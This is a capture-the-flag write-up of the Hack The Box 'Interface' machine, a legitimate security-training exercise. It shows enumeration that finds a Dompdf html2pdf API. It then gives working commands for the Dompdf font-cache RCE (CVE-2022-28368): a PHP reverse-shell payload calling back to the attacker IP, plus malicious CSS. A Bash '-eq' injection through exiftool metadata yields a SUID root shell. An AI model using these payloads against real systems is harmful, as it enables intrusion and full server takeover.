




Interface

TOC
Summary
Foothold
http://prd.m.rendering-api.interface.htb/URL was there in CSPconnect-srcdirective in response header.- Found
http://prd.m.rendering-api.interface.htb/api/html2pdfendpoint by Directory Enumeration. - Found valid parameter
{"html":"foo"}and is used Dompdf 1.2.0 by pdf generator. - Exploit Dompdf RCE (CVE-2022-28368)
Privilege Escalation
/usr/local/sbin/cleancache.shscript is executed by cron[[ "$meta_producer" -eq "dompdf" ]]in this script is vulnerable to RCE.
Port Scan
root@kali:~/htb/Machines/Interface# nmap -p- --min-rate 5000 -sVC --open 10.129.228.208
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 13:40 JST
Nmap scan report for interface (10.129.228.208)
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 72:89:a0:95:7e:ce:ae:a8:59:6b:2d:2d:bc:90:b5:5a (RSA)
| 256 01:84:8c:66:d3:4e:c4:b1:61:1f:2d:4d:38:9c:42:c3 (ECDSA)
|_ 256 cc:62:90:55:60:a6:58:62:9e:6b:80:10:5c:79:9b:55 (ED25519)
80/tcp open http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site Maintenance
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.63 seconds
22/tcp SSH and 80/tcp HTTP is opened.
80/tcp http
Next.js
Checking basic technical informations by using WhatWeb.
root@kali:~/htb/Machines/Interface# whatweb -a 3 http://10.129.228.208/
http://10.129.228.208/ [200 OK] Country[RESERVED][ZZ], Email[contact@interface.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.129.228.208], Script[application/json], UncommonHeaders[content-security-policy], X-Powered-By[Next.js], nginx[1.14.0]
Nginx 1.14.0 and Next.js. Also, E-mail address contact@interface.htb is found, it's maybe useful to subdomain enumeration.
Looking at response headers.
root@kali:~/htb/Machines/Interface# curl -s -o /dev/null -D- http://10.129.228.208/
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 04:44:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 6359
Connection: keep-alive
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
CSP (Content-Security-Policy) Header connect-src directive includes http://prd.m.rendering-api.interface.htb URL so let's check it.
Appending it to /etc/hosts.
/etc/hosts
prd.m.rendering-api.interface.htb
Directory Enumeration
GET http://prd.m.rendering-api.interface.htb/ response is:
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 05:19:00 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
File not found.
I don't know what services are running based on the response so enumerate using ffuf.
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : GET
:: URL : http://prd.m.rendering-api.interface.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 203ms]
* FUZZ: vendor
:: Progress: [4715/4715] :: Job [1/1] :: 139 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
- Gems are installed to vendor/bundle not your default system location
It then implicitly runs the install command. This will download the dependencies' files into the vendor directory in your project. (The vendor directory is the conventional location for all third-party code in a project).
vendor directory is found.
A directory named vendor is used in Ruby and PHP to store libraries.
Further enumeration vendor/FUZZ.
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/vendor/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : GET
:: URL : http://prd.m.rendering-api.interface.htb/vendor/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 205ms]
* FUZZ: composer
:: Progress: [4715/4715] :: Job [1/1] :: 139 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
composer directory is found so PHP is used instead of Ruby.
Further enumerated vendor/composer/FUZZ with the following wordlists, but I couldn't find out what libraries is used.
/usr/share/seclists/Discovery/Web-Content/common.txt/usr/share/seclists/Discovery/Web-Content/big.txt/usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
So I go back to the / path and enumerate again.
I tried various request and found differences 404 response status:
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 05:59:22 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
File not found.
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/a
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 05:59:25 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
/ path returns File not found. body, but /a path returns no body.
I guess:
- In
/path,index.phpfile is executed and PHP returnsFile not found.content. - In the other path, no files executed so Nginx returns
404 Not Foundwith no content.
Based on this guess, enumerating with filtering contents size.
In this, I append -mc all options (match all response status code) and -fs 0 options (ignores 0 content size) because I expected PHP returns something.
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fs 0
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : GET
:: URL : http://prd.m.rendering-api.interface.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: all
:: Filter : Response size: 0
________________________________________________
[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 203ms]
* FUZZ: api
[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 202ms]
* FUZZ: api/experiments
[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 408ms]
* FUZZ: api/experiments/configurations
[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 212ms]
* FUZZ: vendor
:: Progress: [4715/4715] :: Job [1/1] :: 162 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
/api path is found.
Looking at the /api response.
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/api/
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:17:33 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
{"status":"404","status_text":"route not defined"}
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/api/a
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:17:35 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
{"status":"404","status_text":"route not defined"}
It returned with a 404 response status and this JSON content (size 50) under the /api path, so this response is as baseline, append the -fs 50 options and enumerate again.
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fs 50
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : GET
:: URL : http://prd.m.rendering-api.interface.htb/api/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: all
:: Filter : Response size: 50
________________________________________________
:: Progress: [4715/4715] :: Job [1/1] :: 139 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
But not found.
The response content is JSON, so guess sending JSON and enumerate in POST method.
Also, it was not found with common.txt wordlist so use big.txt wordlist.
root@kali:~/htb/Machines/Interface# ffuf -ic -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -mc all -fs 50
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : POST
:: URL : http://prd.m.rendering-api.interface.htb/api/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: all
:: Filter : Response size: 50
________________________________________________
[Status: 422, Size: 36, Words: 2, Lines: 1, Duration: 408ms]
* FUZZ: html2pdf
:: Progress: [20476/20476] :: Job [1/1] :: 139 req/sec :: Duration: [0:02:01] :: Errors: 0 ::
/api/html2pdf path is found.
/api/html2pdf
Looking at the response:
root@kali:~/htb/Machines/Interface# curl -X POST -i http://prd.m.rendering-api.interface.htb/api/html2pdf
HTTP/1.1 422 Unprocessable Entity
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:42:53 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
{"status_text":"missing parameters"}
It seems to miss parameters. The response is JSON so enumerate JSON key.
root@kali:~/htb/Machines/Interface# ffuf -ic -X POST -u http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"FUZZ":"dummy"}' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 422
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : POST
:: URL : http://prd.m.rendering-api.interface.htb/api/html2pdf
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
:: Data : {"FUZZ":"dummy"}
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
:: Filter : Response status: 422
________________________________________________
[Status: 200, Size: 1132, Words: 116, Lines: 77, Duration: 408ms]
* FUZZ: html
:: Progress: [4715/4715] :: Job [1/1] :: 162 req/sec :: Duration: [0:00:29] :: Errors: 0 ::
html key found so Looking at the response.
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html":"a"}'
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:50:13 GMT
Content-Type: application/pdf
Content-Length: 1128
Connection: keep-alive
X-Local-Cache: miss
Cache-Control: public
Content-Transfer-Encoding: Binary
Content-Disposition: attachment; filename=export.pdf
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
It returns binary file so check it.
root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html":"a"}' -o tmp.dat
root@kali:~/htb/Machines/Interface# file tmp.dat
tmp.dat: PDF document, version 1.7, 0 pages
root@kali:~/htb/Machines/Interface# exiftool tmp.dat
ExifTool Version Number : 12.63
File Name : tmp.dat
Directory : .
File Size : 1128 bytes
File Modification Date/Time : 2023:07:29 15:51:27+09:00
File Access Date/Time : 2023:07:29 15:51:29+09:00
File Inode Change Date/Time : 2023:07:29 15:51:27+09:00
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.7
Linearized : No
Page Count : 1
Producer : dompdf 1.2.0 + CPDF
Create Date : 2023:07:29 06:50:13+00:00
Modify Date : 2023:07:29 06:50:13+00:00

Producer is dompdf 1.2.0.
- Source Code: dompdf/dompdf: HTML to PDF converter for PHP
- Document: dompdf by dompdf
Searched dompdf 1.2.0 vulnerabilities, I found RCE.
- Exploiting RCE Vulnerability in Dompdf | Optiv
- From XSS to RCE (dompdf 0day) | Positive Security
- Dompdf RCE | Exploit Notes
Also, this RCE is assigned CVE-2022-28368.
Foothold
Execute exploit according to Dompdf RCE | Exploit Notes.
-
Create Malicious Font
root@kali:~/htb/Machines/Interface# find / -name "*.ttf" 2>/dev/null (snip) /usr/share/fonts/truetype/dejavu/DejaVuSerif.ttf (snip) root@kali:~/htb/Machines/Interface# cp /usr/share/fonts/truetype/dejavu/DejaVuSerif.ttf ./evil.php root@kali:~/htb/Machines/Interface# echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.11/8888 0>&1'\"); ?>" >> evil.php root@kali:~/htb/Machines/Interface# tail -1 evil.php Sd+(snip)+<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.11/8888 0>&1'"); ?> -
Create Malicious CSS
-
Host PHP & CSS
-
Send Request
root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/api/html2pdf -d "{\"html\":\"<link rel=stylesheet href='http://10.10.16.11:8000/evil.css'>\"}"receive request:
root@kali:~/htb/Machines/Interface# python3 -m http.server 8000 Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 10.129.228.208 - - [29/Jul/2023 16:10:12] "GET /evil.css HTTP/1.0" 200 - 10.129.228.208 - - [29/Jul/2023 16:10:14] "GET /evil.php HTTP/1.0" 200 -check md5sum
md5(evil.php URL): -
Execute Malicious PHP via Cached File
listening reverse shell:
In this article,
Our “evil.php” is uploaded to /dompdf/lib/fonts/
.php. For example, /dompdf/lib/fonts/evil_normal_2cddaeb743b6aeb5638ac0ac93c4c9f6.php. In this Machine case, Cached file is
vendor/dompdf/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.phpso URL Path is/vendor/dompdf/dompdf/lib/fonts/evil_normal_de89cf488fc6d524f124c4c2df823344.php.root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/evil_normal_de89cf488fc6d524f124c4c2df823344.phplistening shell:
root@kali:~/htb/Machines/Interface# nc -lnvp 8888 listening on [any] 8888 ... connect to [10.10.16.11] from (UNKNOWN) [10.129.228.208] 34698 bash: cannot set terminal process group (1312): Inappropriate ioctl for device bash: no job control in this shell www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
got shell.
To avoid inadvertently disconnecting nc, I got full TTY according the article Full TTYs - HackTricks.

Privilege Escalation
Download pspy from https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 URL to kali machine, then upload it target machie.
In kali:
root@kali:~/htb/Machines/Interface# curl -sL -o pspy https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
root@kali:~/htb/Machines/Interface# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.208 - - [29/Jul/2023 16:37:38] "GET /pspy HTTP/1.1" 200 -
In Target:
Executing pspy:
www-data@interface:/tmp$ chmod +x pspy
www-data@interface:/tmp$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
██▓███ ██████ ██▓███ ▓██ ██▓
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
░░ ░ ░ ░ ░░ ▒ ▒ ░░
░ ░ ░
░ ░
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/07/29 07:40:29 CMD: UID=33 PID=20283 | ./pspy
(snip)
2023/07/29 07:42:01 CMD: UID=0 PID=20296 | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0 PID=20295 | /bin/sh -c /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0 PID=20294 | /usr/sbin/CRON -f
2023/07/29 07:42:01 CMD: UID=0 PID=20299 | cut -d -f1
2023/07/29 07:42:01 CMD: UID=0 PID=20298 | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0 PID=20297 | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:02 CMD: UID=0 PID=20300 | rm /tmp/pspy
/usr/local/sbin/cleancache.sh file is executed with UID=0 (root) by cron so look at this.
www-data@interface:/tmp$ file /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh: Bourne-Again shell script, ASCII text executable
/usr/local/sbin/cleancache.sh
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do
if [[ -f "$cfile" ]]; then
meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
if [[ "$meta_producer" -eq "dompdf" ]]; then
echo "Removing $cfile"
rm "$cfile"
fi
fi
done
Google searching:

Found Bash eq Privilege Escalation | Exploit Notes article.
This article talking about shell script containing [[ $var -eq 42 ]], this can be exploitable.
Payload is a[$(command)].
Testing it.
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$(touch /tmp/hacked)]' foo
www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh: line 9: [[: a[$(touch: bad array subscript (error token is "a[$(touch")
I guess that the error occurs because the spaces is there in commands. e.g. touch /tmp/hacked.
So using Bash Brace Expansion (e.g. echo {a,b,c}) to bypass it.
ref: Bypass Linux Shell Restrictions - HackTricks
Testing it.
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$({touch,/tmp/hacked})]' foo
1 image files updated
www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
Removing /tmp/foo
Removing /tmp/foo_original
www-data@interface:/tmp$ ls -la
total 44
drwxrwxrwt 11 root root 4096 Jul 29 08:09 .
drwxr-xr-x 24 root root 4096 Jan 16 2023 ..
(snip)
-rw-r--r-- 1 www-data www-data 0 Jul 29 08:09 hacked
(snip)
Got it.
Letting the command run that copy /bin/bash and set the SUID to it.
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$({cp,/bin/bash,/tmp/rootbash};{chmod,+s,/tmp/rootbash})]' foo
1 image files updated
www-data@interface:/tmp$ # wait a minute...
www-data@interface:/tmp$ ls -la rootbash
-rwsr-sr-x 1 root root 1113504 Jul 29 08:18 rootbash
www-data@interface:/tmp$ /tmp/rootbash -p
rootbash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
Got root shell.
User flag
www-data@interface:~$ ls -la /home/dev/
ls -la /home/dev/
total 32
drwxr-xr-x 4 dev dev 4096 Jan 16 2023 .
drwxr-xr-x 3 root root 4096 Jan 16 2023 ..
lrwxrwxrwx 1 root root 9 Jan 10 2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev dev 220 Jan 10 2023 .bash_logout
-rw-r--r-- 1 dev dev 3771 Jan 10 2023 .bashrc
drwx------ 2 dev dev 4096 Jan 16 2023 .cache
drwx------ 3 dev dev 4096 Jan 16 2023 .gnupg
-rw-r--r-- 1 dev dev 807 Jan 10 2023 .profile
-rw-r--r-- 1 root dev 33 Jul 29 03:15 user.txt
www-data@interface:~$ cat /home/dev/user.txt
cat /home/dev/user.txt
[REDACTED]